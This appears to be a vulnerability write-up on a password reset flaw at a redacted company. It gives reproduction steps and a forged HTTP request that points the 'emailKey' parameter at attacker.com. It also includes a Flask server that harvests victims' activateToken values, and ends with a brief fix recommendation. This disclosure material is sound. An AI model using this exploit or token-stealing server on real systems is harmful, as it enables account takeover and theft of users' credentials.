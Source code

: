   title: "Exploiting Password Reset Vulnerabilities: A Case Study",
  date: "2025-01-26",
  summary: "The vulnerability was found in the password reset mechanism of the platform, specifically in how the `emailKey` parameter was handled in the form data. By altering this parameter, an attacker could redirect password reset requests to their own malicious website.",
};

# Exploiting Password Reset Vulnerabilities: A Case Study

# Introduction

Password reset features are critical to account recovery workflows, but misconfigurations can open the door to severe security risks. Recently, I discovered a vulnerability in the password reset implementation of **[Redacted Company]**, which allowed an attacker to hijack the password reset process and potentially compromise user accounts.



# Summary of the Vulnerability

The vulnerability was found in the password reset mechanism of the platform, specifically in how the `emailKey` parameter was handled in the form data. By altering this parameter, an attacker could redirect password reset requests to their own malicious website.



# Steps to Reproduce

1. **Create an account**: Register a new account on **[Redacted Company]**'s platform.  
2. **Initiate password reset**: Request a password reset for the account.  
3. **Capture the request**: Intercept the reset request using a proxy tool like Burp Suite or similar.  
4. **Modify the payload**: Replace the `emailKey` parameter from the legitimate URL to a malicious domain.  
   - Example:  
     ```plaintext
     emailKey=https://www.[redacted].com/.edm.FGTPASS.data
     ```
     becomes  
     ```plaintext
     emailKey=https://attacker.com/.edm.FGTPASS.data
     ```
5. **Send the modified request**: The victim receives an email with the manipulated reset link.  
6. **Click the reset link**: When the victim clicks the link, the attacker harvests sensitive tokens (e.g., `activateToken`) and gains control of the account.



# Supporting Material

### Request Example:

```http
POST /[redacted]/users/forgotpassword HTTP/2
Host: www.[redacted].com
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

email={VICTIM_EMAIL}&userName={VICTIM_USERNAME}&emailKey=https%3A%2F%2Fattacker.com%2F.edm.FGTPASS.data
```


# Exploitation Code:

```
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/')
def index():
    return 'Welcome to Attacker\'s Site!'

@app.route('/.edm.FGTPASS.data')
def capture_token():
    args = request.args
    if "activateToken" in args:
        token = args.get("activateToken")
        with open("stolen_tokens.txt", "a") as file:
            file.write(f"{token}\n")
    return "Token captured!"
```
this will mimic the original /.edm.FGTPASS.data and steal the ``activateToken``, then upload to the server. By replacing the ``emailKey``, we are able to steal  the ``activateToken``.

# Conclusion

Do not trust client-side request, do not put something like this. The email template should be prepared in the backend.
